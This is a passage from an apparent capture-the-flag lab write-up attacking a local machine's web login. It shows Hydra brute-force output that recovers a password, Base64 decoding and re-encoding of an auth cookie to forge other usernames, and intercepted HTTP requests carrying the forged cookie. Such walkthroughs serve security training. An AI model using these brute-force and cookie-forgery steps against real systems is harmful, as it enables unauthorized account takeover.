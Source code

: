 ```
[STATUS] 2374.67 tries/min, 7124 tries in 00:03h, 14337275 to do in 100:38h, 16 active
[STATUS] 2384.71 tries/min, 16693 tries in 00:07h, 14327706 to do in 100:09h, 16 active
[STATUS] 2565.53 tries/min, 38483 tries in 00:15h, 14305916 to do in 92:57h, 16 active
[STATUS] 2499.74 tries/min, 77492 tries in 00:31h, 14266907 to do in 95:08h, 16 active
[8080][http-post-form] host: 192.168.56.117   login: magellan   password: pass
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

We got 2 logins
- venus
- magellan


---
---

## CyberChef 🧑‍🍳🤖
#CyberChef 

- Use the value of auth `auth="Z3Vlc3Q6dGhyZmc="`
- ``Z3Vlc3Q6dGhyZmc=`` is ``guest:thrfg`` From Base64
- ``venus:thrfg`` is `dmVudXM6dGhyZmc=` To Base64
-  `magellan:thrfg` is `bWFnZWxsYW46dGhyZmc=` To Base64


```HTTP
POST / HTTP/1.1
Host: 192.168.56.117:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://192.168.56.117:8080/
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://192.168.56.117:8080
Connection: keep-alive
Cookie: csrftoken=JlPDk8Mb6hvFH7SPg8PrkgBiVlN4IpvisGi5vN497AgWW8fwtvMhrSiZboA2MiHn; auth="dmVudXM6dGhyZmc="
Upgrade-Insecure-Requests: 1
```

If I understand this correctly replacing the Auth value while using the POST-request, will not work, open the site on a new page, to intercept the GET request version.



```HTTP
GET / HTTP/1.1
Host: 192.168.56.117:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: csrftoken=JlPDk8Mb6hvFH7SPg8PrkgBiVlN4IpvisGi5vN497AgWW8fwtvMhrSiZboA2MiHn; auth="dmVudXM6dGhyZmc="
Upgrade-Insecure-Requests: 1
```
